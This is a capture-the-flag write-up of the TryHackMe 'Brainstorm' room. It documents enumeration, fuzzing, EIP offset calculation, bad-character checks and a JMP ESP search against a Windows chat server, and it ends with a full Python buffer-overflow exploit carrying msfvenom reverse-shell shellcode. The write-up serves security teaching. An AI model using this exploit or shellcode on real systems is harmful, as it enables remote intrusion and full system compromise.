

# Brainstorm

[Brainstorm](https://tryhackme.com/room/brainstorm) is a **TryHackMe** room that consists in reversing a chat program and exploiting a buffer overflow on a remote Windows machine.

# Enumeration

```bash
$ nmap -Pn -oN ports.txt 10.10.70.196
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss
```

## FTP (port 21)

We can login anonymously with `ftp`. As we can see there is a folder called **chatserver** which contains two files:

1. `chatserver.exe`
2. `essfunc.dll` 


At this point, I downloaded the two files using `put <filename>`. Then I tried to run `chatserver.exe` with `wine` but it didn't worked. I also tried to execute it from a Windows VM.

It's only after watching the first 3 minutes from this [video](https://www.youtube.com/watch?v=T1-Sds8ZHBU) that I discovered that the files were corrupted, and there is an alternative way to download them:


In the screenshot below, we can see that the files downloaded with `put` and the files downloaded with `prompt OFF; binary; mget *` do not have the same MD5 hash:


Afterward, I was able to run the `.exe` from a Windows 10 virtual machine.

## `chatserver.exe` (port 9999)

There is a strange service on port 9999 which looks like a chat application.


This strange port is some how related to the files we found. 

In the next part, we'll see if there is a way to exploit that strange service and gain access to the target system.

---

# Exploitation

I executed `chatserver.exe` on a local Windows virtual machine and attached it to [`x32dbg`](https://github.com/x64dbg/x64dbg) to find a potential buffer overflow.

> I wanted to use `x64dbg` / `x32dbg` for many reasons: [@sebdraven](https://twitter.com/Sebdraven) recommended me this tool a few years ago to start reverse engineering, it's open-source and maintained by a community, the tool also supports x64 debugging (unlike **Immunity Debugger**) and it doesn't require a pro license (unlike `WinDBG` or `IDA pro`).

For stack-based buffer overflow exploitation, we usually follow four main steps to identify and exploit the buffer overflow vulnerability:

1. Fuzzing the application
2. Controlling `EIP` (calculating the offset)
3. Identifying Bad Characters
4. Finding a Return Instruction (like `JMP ESP` or `CALL ESP` for instance)
5. Jumping to **Shellcode** (if security mechanisms such as `DEP` are disabled)

In order to perform all these steps, I use an exploit script skeleton:

```python
#!/usr/bin/python3

import socket
import sys
from struct import pack

TARGET = "127.0.0.1"
PORT = 8888
OFFSET = 1337 # /usr/bin/msf-pattern_offset -q VALUE

def send_payload(payload, debug=False):
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))
    if debug:
      breakpoint()
    s.send(payload)
    s.close()
  except:
    print("Could not establish a connection")
    sys.exit(0)

def fuzz():
  for i in range(0, 10000, 500):  # incrementing by 500 at each iteration
    buffer = b"A" * i
    print("Fuzzing %s bytes" % i)
    send_payload(buffer, debug=True)

def eip_offset():
  # /usr/bin/msf-pattern_create -l VALUE
  pattern = bytes("", "utf-8")

  send_payload(pattern)

def eip_control():
  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip

  send_payload(payload)

def bad_chars():
  all_chars = bytes([
    0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
  ])

  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip + all_chars

  send_payload(payload)

def exploit():
  # msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT EXITFUNC=thread -f 'python' --bad-chars "\x00" --var-name shellcode
  shellcode = b""
  buffer = b"A" * OFFSET
  eip = pack("<L", 0x0069D2E5) # jmp_esp
  nop = b"\x90" * 32
  payload = buffer + eip + nop + shellcode

  send_payload(payload)

#fuzz()
#eip_offset()
#eip_control()
#bad_chars()
#exploit()
```

I will try to exploit this program locally and then run my exploit script directly on the target machine.

## Fuzzing

First, we will send a bunch of `A`'s to any input the program accepts to see whether or not we can cause the application to **crash.**

```python
#!/usr/bin/python3

import socket
import sys

TARGET = "192.168.1.81"
PORT = 9999

def send_payload(payload, debug=False):
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))
    data = s.recv(1024)
    print(data.decode())
    s.send(b"h4x0r") # 'Please enter your username (max 20 characters):'
    data = s.recv(1024)
    print(data.decode())
    if debug:
      breakpoint()
    s.send(payload) # 'Write a message: '
    s.close()
  except:
    print("Could not establish a connection")
    sys.exit(0)

def fuzz():
  for i in range(0, 10000, 500): # incrementing by 500 at each iteration
    buffer = b"A" * i
    print("Fuzzing %s bytes" % i)
    send_payload(buffer, debug=False)

fuzz()
```

My script stopped after sending 3000 bytes:


We can inspect the registers from `x32dbg` and indeed, `EIP` is filled with `41414141` (the hexadecimal representation for string '`AAAA`')


> **Tip**: go to `Options>Preferences>Events`, and un-tick everything under **Break on**. By doing so, the program will only break when we crash it on an overflow.

## Controlling `EIP` (calculating the offset)

During this step, we need to determine the **offset** which corresponds to the exact amount we need to reach `EIP` in order to crash the program.

With `pattern_create` and `pattern_offset`, we can create a unique, non-repeating pattern of characters which will facilitate us the calculation of the offset.

### `pattern_create`

First, we generate a pattern of 3000 characters:

```bash
/usr/bin/msf-pattern_create -l 3000
```


Then we send it to the target's program:

```python
def eip_offset():
  # /usr/bin/msf-pattern_create -l 3000
  pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9","utf-8")
  send_payload(pattern)
```

> *We can click on the restart button instead of closing the program and re-open it.*


We copy `EIP`'s value (`31704330`).

### `pattern_offset`

We give this value to `pattern_offset` to get the exact offset:

```bash
$ /usr/bin/msf-pattern_offset -q 31704330
[*] Exact match at offset 2012
```

We can send another socket to ensure that we control `EIP` by filling it with four `B`'s (`0x42424242`): 

```python
OFFSET = 2012 # /usr/bin/msf-pattern_offset -q 31704330

def eip_control():
  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip

  send_payload(payload)
```

And we successfully overwrote `EIP`'s value:


> *Do not hesitate to close `x32dbg` and the program and re-open them.*

## Identifying bad characters

We need to identify the characters that we will not be able to use in our shellcode.

To identify them, we have to send all characters after filling the `EIP` address and analyze the memory to see where our payload got truncated prematurely.

```python
def bad_chars():
  all_chars = bytes([
    0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
  ])

  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip + all_chars
```

As you may noticed, I am starting with the `0x00` character excluded because this character is used as a string terminator in Assembly. If our input was starting with a null byte, the program may stop processing our payload, thinking it has reached the end of it. 

To analyze our payload in the program's memory within `x32dbg`, we could rely only on our eyes by right-clicking on `ESP` and selecting  **Follow in Dump** or **Follow in Stack**. 




We can also use a plugin called `ERC.Xdbg` to compare the dump with an array of bytes containing all characters.

> When I was doing [Brainpan](https://amirr0r.github.io/posts/thm-brainpan/), I was using **Immunity Debugger** and `[mona.py](http://mona.py)`.  However [mona.py](http://mona.py/) does not support x64 and it relies on on Python2 which is no longer maintained. So I will be using `ERC.Xdbg` which is a great alternative as a plugin for `x32dbg`.

- The following command will set a default working directory to have all output files saved to:

```python
ERC --config SetWorkingDirectory C:\Users\user\Desktop\
```

- The following command will generate an array with all characters into two files `ByteArray_1.txt` and `ByteArray_1.bin`:

```python
ERC --bytearray
```


- Finally, we can perform a byte by byte comparison of an area of memory and the bytes from the file we generated earlier:

```python
ERC --compare <ESP_ADDRESS> C:\Users\user\Desktop\ByteArray_1.bin
```


It seems there are no bad characters (except 0x00 whis was initially excluded from our payload)!

## Finding a return instruction

Okay, so now we can subvert the program execution flow and have it execute any instruction we want by writing the instruction's address to `EIP`.

But how a single assembly instruction will help us in gaining code execution on the target machine?

We can search loaded **modules with disabled security** protections for some specific instructions.

- With `ERC.Xdbg`, we can list of all loaded files by the program:

```python
ERC --ModuleInfo -NXCompat
```


We will only consider files with `False` set to all protections which gives us the following list:

```
------------------------------------------------------------------------------------------------------------------------ 
 Base          | Entry point   | Size      | Rebase   | SafeSEH  | ASLR    | NXCompat | OS DLL  | Version, Name, and Path 
------------------------------------------------------------------------------------------------------------------------ 
0x400000         0x14e0          0x9000      False      False      False      False      False      C:\Users\user\Desktop\brainstorm\chatserver.exe 
0x62500000       0x1420          0xb000      False      False      False      False      False      C:\Users\user\Desktop\brainstorm\essfunc.dll
```

Now go the **Symbols** tab, and double click on the module you're interested in:


Directly into the stack, we will place instructions that will give us a reverse shell when executed (in the form of machine code/shellcode)  and write into `EIP` the address of the beginning of our payload.

There are various ways to do that:

- using `ESP` address (but the real target may have a different address 🙃)
- using `JMP ESP` ➡️ jumps to the top of the stack and continues the execution (more reliable)
- using `CALL RSP` (also jump to the stack)
- using `PUSH ESP; RET` (requires to search for **machine code patterns** in `x32dbg`)
- etc.

Type `Ctrl+f` and look for `JMP ESP`:


⚠️ **We must ensure that the instruction address does not contain any bad characters** ⚠️


`0x625014DF` seems a good candidate!

## Jumping to shell code

We got everything to exploit our program:

- we calculated the offset (`2012`)
- we identified all bad characters (there were none, except `0x00`)
- we found a `JMP ESP` instruction (`0x625014DF`)
- we can generate a shell code with `msfvenom`:

```bash
$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 -f 'python' --bad-chars="\x00" --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
...
```

Before adding this shellcode to our exploit script, we need to prepend it with `NOP` (No Operation) bytes (machine code `0x90`). This is to prevent some issues with **Stack Frame** and **Stack Alignment**.

In fact, by the time our `JMP ESP` instruction is executed,  `ESP` (top of the stack) may have moved slightly and the first few bytes of our shell code may get skipped, which will lead failing the exploitation.

Adding 32 bytes of `NOP` before our shell code should guarantee that the execution starts somewhere within these bytes, and continue to execute our main shell code.

```python
def exploit():
  # msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 -f 'python' --bad-chars="\x00" --var-name shellcode
  shellcode =  b""
  shellcode += b"\xbd\xad\xe4\xf5\xa1\xdb\xce\xd9\x74\x24\xf4"
  shellcode += b"\x5b\x2b\xc9\xb1\x52\x31\x6b\x12\x03\x6b\x12"
  shellcode += b"\x83\x46\x18\x17\x54\x64\x09\x5a\x97\x94\xca"
  shellcode += b"\x3b\x11\x71\xfb\x7b\x45\xf2\xac\x4b\x0d\x56"
  shellcode += b"\x41\x27\x43\x42\xd2\x45\x4c\x65\x53\xe3\xaa"
  shellcode += b"\x48\x64\x58\x8e\xcb\xe6\xa3\xc3\x2b\xd6\x6b"
  shellcode += b"\x16\x2a\x1f\x91\xdb\x7e\xc8\xdd\x4e\x6e\x7d"
  shellcode += b"\xab\x52\x05\xcd\x3d\xd3\xfa\x86\x3c\xf2\xad"
  shellcode += b"\x9d\x66\xd4\x4c\x71\x13\x5d\x56\x96\x1e\x17"
  shellcode += b"\xed\x6c\xd4\xa6\x27\xbd\x15\x04\x06\x71\xe4"
  shellcode += b"\x54\x4f\xb6\x17\x23\xb9\xc4\xaa\x34\x7e\xb6"
  shellcode += b"\x70\xb0\x64\x10\xf2\x62\x40\xa0\xd7\xf5\x03"
  shellcode += b"\xae\x9c\x72\x4b\xb3\x23\x56\xe0\xcf\xa8\x59"
  shellcode += b"\x26\x46\xea\x7d\xe2\x02\xa8\x1c\xb3\xee\x1f"
  shellcode += b"\x20\xa3\x50\xff\x84\xa8\x7d\x14\xb5\xf3\xe9"
  shellcode += b"\xd9\xf4\x0b\xea\x75\x8e\x78\xd8\xda\x24\x16"
  shellcode += b"\x50\x92\xe2\xe1\x97\x89\x53\x7d\x66\x32\xa4"
  shellcode += b"\x54\xad\x66\xf4\xce\x04\x07\x9f\x0e\xa8\xd2"
  shellcode += b"\x30\x5e\x06\x8d\xf0\x0e\xe6\x7d\x99\x44\xe9"
  shellcode += b"\xa2\xb9\x67\x23\xcb\x50\x92\xa4\xfe\xaf\xbf"
  shellcode += b"\xa7\x97\xad\xbf\xc6\xdc\x3b\x59\xa2\x32\x6a"
  shellcode += b"\xf2\x5b\xaa\x37\x88\xfa\x33\xe2\xf5\x3d\xbf"
  shellcode += b"\x01\x0a\xf3\x48\x6f\x18\x64\xb9\x3a\x42\x23"
  shellcode += b"\xc6\x90\xea\xaf\x55\x7f\xea\xa6\x45\x28\xbd"
  shellcode += b"\xef\xb8\x21\x2b\x02\xe2\x9b\x49\xdf\x72\xe3"
  shellcode += b"\xc9\x04\x47\xea\xd0\xc9\xf3\xc8\xc2\x17\xfb"
  shellcode += b"\x54\xb6\xc7\xaa\x02\x60\xae\x04\xe5\xda\x78"
  shellcode += b"\xfa\xaf\x8a\xfd\x30\x70\xcc\x01\x1d\x06\x30"
  shellcode += b"\xb3\xc8\x5f\x4f\x7c\x9d\x57\x28\x60\x3d\x97"
  shellcode += b"\xe3\x20\x4d\xd2\xa9\x01\xc6\xbb\x38\x10\x8b"
  shellcode += b"\x3b\x97\x57\xb2\xbf\x1d\x28\x41\xdf\x54\x2d"
  shellcode += b"\x0d\x67\x85\x5f\x1e\x02\xa9\xcc\x1f\x07"

  buffer = b"A" * OFFSET
  eip = pack("<L", 0x625014DF) # jmp_esp
  nop = b"\x90" * 32
  payload = buffer + eip + nop + shellcode

  send_payload(payload)
```

Now we have to replace the IP address of the target, we execute our script again and we got a shell as `system`:


---

# Useful links

- [The Cyber Mentor - Brainstorm](https://www.youtube.com/watch?v=T1-Sds8ZHBU)
- [Stack-Based Buffer Overflows on Windows x86](https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86)
- [x64dbg documentation](https://www.notion.so/Debugging-Tools-2df24f1244ad4499b79e17c8a594c8d9)
- [ERC documentation](https://www.notion.so/Debugging-Tools-2df24f1244ad4499b79e17c8a594c8d9)